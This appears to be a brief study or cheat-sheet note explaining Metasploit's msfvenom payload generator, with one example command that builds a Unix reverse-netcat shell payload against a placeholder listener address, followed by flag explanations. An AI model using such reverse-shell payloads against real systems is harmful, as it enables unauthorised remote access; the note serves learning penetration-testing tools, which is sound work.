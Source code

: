 Is used to generate and output various types of shellcode that is available in Metasploit. Can generate Payloads for Android, Windows, Unic, Nodejs, Cisco...

Example:

`msfvenom -p cmd/unix/reverse_netcat lhost=[localhost ip] lport=4444 R`

-  -p = payload
-  lhost = localhost ip (my ip)
-  lport = localhost port
-  R = export payload in RAW format